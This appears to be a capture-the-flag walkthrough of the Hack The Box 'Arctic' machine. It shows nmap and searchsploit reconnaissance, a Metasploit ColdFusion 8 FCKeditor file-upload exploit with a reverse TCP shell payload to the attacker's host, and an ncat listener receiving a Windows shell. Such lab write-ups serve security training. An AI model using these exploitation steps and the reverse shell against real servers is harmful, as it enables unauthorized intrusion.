#### Arctic

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)

###### Attacker Info

```sh
root@kali:~/arctic# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.19  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:fef1:8ebf  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:f1:8e:bf  txqueuelen 1000  (Ethernet)
        RX packets 109809  bytes 95337664 (90.9 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 76737  bytes 9739049 (9.2 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 19  base 0x2000

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 2640  bytes 5009992 (4.7 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2640  bytes 5009992 (4.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.8  netmask 255.255.254.0  destination 10.10.14.8
        inet6 fe80::18b9:a0b6:8259:dc91  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1006  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 4  bytes 156 (156.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 47  bytes 2068 (2.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~/arctic#
```

###### Nmap Scan

```sh
root@kali:~/arctic# nmap -sV -sC -oA arctic.nmap 10.10.10.11

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-30 21:38 EST
Nmap scan report for 10.10.10.11
Host is up (0.30s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.42 seconds
root@kali:~/arctic#
```

```sh
http://10.10.10.11:8500/
http://10.10.10.11:8500/CFIDE/
http://10.10.10.11:8500/cfdocs/
http://10.10.10.11:8500/userfiles/
http://10.10.10.11:8500/CFIDE/administrator/
```











```sh
root@kali:~/arctic# searchsploit coldfusion

-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
 Exploit Title                                                                                                                                                      |  Path
                                                                                                                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
Adobe ColdFusion - 'probe.cfm' Cross-Site Scripting                                                                                                                 | exploits/cfm/webapps/36067.txt
Adobe ColdFusion - Directory Traversal                                                                                                                              | exploits/multiple/remote/14641.py
Adobe ColdFusion - Directory Traversal (Metasploit)                                                                                                                 | exploits/multiple/remote/16985.rb
Adobe ColdFusion 6/7 - User_Agent Error Page Cross-Site Scripting                                                                                                   | exploits/cfm/webapps/29567.txt
Adobe ColdFusion 7 - Multiple Cross-Site Scripting Vulnerabilities                                                                                                  | exploits/cfm/webapps/36172.txt
Adobe ColdFusion 9 - Administrative Authentication Bypass                                                                                                           | exploits/windows/webapps/27755.txt
Adobe ColdFusion 9 - Administrative Authentication Bypass (Metasploit)                                                                                              | exploits/multiple/remote/30210.rb
Adobe ColdFusion < 11 Update 10 - XML External Entity Injection                                                                                                     | exploits/multiple/webapps/40346.py
Adobe ColdFusion APSB13-03 - Remote Multiple Vulnerabilities (Metasploit)                                                                                           | exploits/multiple/remote/24946.rb
Adobe ColdFusion Server 8.0.1 - '/administrator/enter.cfm' Query String Cross-Site Scripting                                                                        | exploits/cfm/webapps/33170.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_authenticatewizarduser.cfm' Query String Cross-Site Scripting                                                     | exploits/cfm/webapps/33167.txt
Adobe ColdFusion Server 8.0.1 - '/wizards/common/_logintowizard.cfm' Query String Cross-Site Scripting                                                              | exploits/cfm/webapps/33169.txt
Adobe ColdFusion Server 8.0.1 - 'administrator/logviewer/searchlog.cfm?startRow' Cross-Site Scripting                                                               | exploits/cfm/webapps/33168.txt
Allaire ColdFusion Server 4.0 - Remote File Display / Deletion / Upload / Execution                                                                                 | exploits/multiple/remote/19093.txt
Allaire ColdFusion Server 4.0.1 - 'CFCRYPT.EXE' Decrypt Pages                                                                                                       | exploits/windows/local/19220.c
Allaire ColdFusion Server 4.0/4.0.1 - 'CFCACHE' Information Disclosure                                                                                              | exploits/multiple/remote/19712.txt
ColdFusion 8.0.1 - Arbitrary File Upload / Execution (Metasploit)                                                                                                   | exploits/cfm/webapps/16788.rb
ColdFusion 9-10 - Credential Disclosure                                                                                                                             | exploits/multiple/webapps/25305.py
ColdFusion MX - Missing Template Cross-Site Scripting                                                                                                               | exploits/cfm/remote/21548.txt
ColdFusion MX - Remote Development Service                                                                                                                          | exploits/windows/remote/50.pl
ColdFusion Scripts Red_Reservations - Database Disclosure                                                                                                           | exploits/asp/webapps/7440.txt
ColdFusion Server 2.0/3.x/4.x - Administrator Login Password Denial of Service                                                                                      | exploits/multiple/dos/19996.txt
Macromedia ColdFusion MX 6.0 - Error Message Full Path Disclosure                                                                                                   | exploits/cfm/webapps/22544.txt
Macromedia ColdFusion MX 6.0 - Oversized Error Message Denial of Service                                                                                            | exploits/multiple/dos/24013.txt
Macromedia ColdFusion MX 6.0 - Remote Development Service File Disclosure                                                                                           | exploits/multiple/remote/22867.pl
Macromedia ColdFusion MX 6.0 - SQL Error Message Cross-Site Scripting                                                                                               | exploits/cfm/webapps/23256.txt
Macromedia ColdFusion MX 6.1 - Template Handling Privilege Escalation                                                                                               | exploits/multiple/remote/24654.txt
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
Shellcodes: No Result
root@kali:~/arctic#
```

```sh
root@kali:~/arctic# msfconsole
msf > search coldfusion
[!] Module database cache not built yet, using slow search

Matching Modules
================

   Name                                                Disclosure Date  Rank       Description
   ----                                                ---------------  ----       -----------
   auxiliary/gather/coldfusion_pwd_props               2013-05-07       normal     ColdFusion 'password.properties' Hash Extraction
   auxiliary/scanner/http/adobe_xml_inject                              normal     Adobe XML External Entity Injection
   auxiliary/scanner/http/coldfusion_locale_traversal                   normal     ColdFusion Server Check
   auxiliary/scanner/http/coldfusion_version                            normal     ColdFusion Version Scanner
   exploit/multi/http/coldfusion_rds                   2013-08-08       great      Adobe ColdFusion 9 Administrative Login Bypass
   exploit/windows/http/coldfusion_fckeditor           2009-07-03       excellent  ColdFusion 8.0.1 Arbitrary File Upload and Execute


msf > use exploit/windows/http/coldfusion_fckeditor
msf exploit(windows/http/coldfusion_fckeditor) > show options

Module options (exploit/windows/http/coldfusion_fckeditor):

   Name           Current Setting                                                             Required  Description
   ----           ---------------                                                             --------  -----------
   FCKEDITOR_DIR  /CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm  no        The path to upload.cfm
   Proxies                                                                                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                                                                                      yes       The target address
   RPORT          80                                                                          yes       The target port (TCP)
   SSL            false                                                                       no        Negotiate SSL/TLS for outgoing connections
   VHOST                                                                                      no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Universal Windows Target


msf exploit(windows/http/coldfusion_fckeditor) > set RHOST 10.10.10.11
RHOST => 10.10.10.11
msf exploit(windows/http/coldfusion_fckeditor) > set RPORT 8500
RPORT => 8500
msf exploit(windows/http/coldfusion_fckeditor) > run

[*] Started reverse TCP handler on 10.10.14.8:4444
[*] Sending our POST request...
[-] Upload Failed...
[*] Exploit completed, but no session was created.
msf exploit(windows/http/coldfusion_fckeditor) >
```







```
http://127.0.0.1:8500
```



```sh
msf exploit(windows/http/coldfusion_fckeditor) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf exploit(windows/http/coldfusion_fckeditor) > show options

Module options (exploit/windows/http/coldfusion_fckeditor):

   Name           Current Setting                                                             Required  Description
   ----           ---------------                                                             --------  -----------
   FCKEDITOR_DIR  /CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm  no        The path to upload.cfm
   Proxies                                                                                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST          127.0.0.1                                                                   yes       The target address
   RPORT          8500                                                                        yes       The target port (TCP)
   SSL            false                                                                       no        Negotiate SSL/TLS for outgoing connections
   VHOST                                                                                      no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.8       yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal Windows Target


msf exploit(windows/http/coldfusion_fckeditor) > run

[*] Started reverse TCP handler on 10.10.14.8:4444
[*] Sending our POST request...
[-] Upload Failed...
[*] Exploit completed, but no session was created.
msf exploit(windows/http/coldfusion_fckeditor) >
```







```
http://127.0.0.1:8500/userfiles/file/SJSMICV.jsp
```

```sh
root@kali:~/arctic# ncat -nlvp 4444
Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 491F 72E1 CA77 CE1E 2E1E E47A 6549 6732 253A C514
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.11.
Ncat: Connection from 10.10.10.11:61776.
Microsoft Windows [Version 6.1.7600]
